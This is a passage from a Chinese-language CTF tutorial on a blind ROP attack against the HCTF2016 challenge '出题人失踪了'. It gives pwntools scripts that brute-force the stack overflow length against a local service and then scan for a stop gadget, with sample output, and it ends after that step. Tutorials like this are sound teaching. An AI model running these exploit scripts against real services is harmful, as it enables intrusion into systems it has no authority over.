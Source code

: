 ### 例子

这里我们以HCTF2016的出题人失踪了为例，相关的部署文件都放在了example文件夹下的对应目录下。基本思路如下

#### 确定栈溢出长度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack reading。

#### 寻找 stop gadgets

寻找过程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```
